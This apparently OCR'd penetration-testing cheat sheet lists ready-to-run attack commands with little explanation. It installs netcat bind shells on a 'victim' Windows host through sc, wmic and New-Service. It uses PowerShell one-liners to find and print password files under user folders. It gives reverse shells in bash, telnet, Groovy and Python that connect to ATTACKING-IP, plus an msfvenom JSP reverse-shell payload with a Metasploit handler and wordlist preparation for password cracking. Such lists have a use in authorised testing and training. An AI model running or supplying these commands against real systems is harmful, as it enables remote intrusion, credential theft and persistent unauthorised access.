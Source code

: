 

add netcat service

	sc \\victim create myservice binpath="c:\nc.exe -l -p 2222 -e cmd.exe"
	sc \\victim query myservice
	sc \\victim start myservice
	sc \\victim delete myservice

	wmic process call create "c:\nc.exe -d -l -p 4444 -e cmd.exe" /node:victim /user:[admin] /password:[password]
	wmic process where name="nc.exe" delete

	New-Service -name myservice -BinaryPathName "cmd.exe /k c:\nc.exe -l -p 3333 -e cmd.exe" -StartupType manual
	Start-Service myservice
	sc.exe delete myservice

powershell

	ls -r c:\users *password*.txt | % {echo $_.fullname}
	ls -r c:\users *pass* | % {echo $_.fullname;gc $_.fullname}

	wget "url" -outfile c:\f.txt; gc c:\f.txt; del c:\f.txt


REVERSE SHELL
	bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
	
	rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
	
	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	
	KALI
		/usr/share/webshells/*
		
REVERSE SHELL HANDLER
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.254.132 LPORT=4444 -f war > shell.war

	use exploit/multi/handler
	set PAYLOAD java/jsp_shell_reverse_tcp
	set LHOST 192.168.10.1
	run
		

passwords

	cp /user/share/john[tab][tab]/run/password.lst /tmp/



	pw-inspector

					cat /tmp/password.lst | pw-inspector -m 6 -n -u -l -c 2
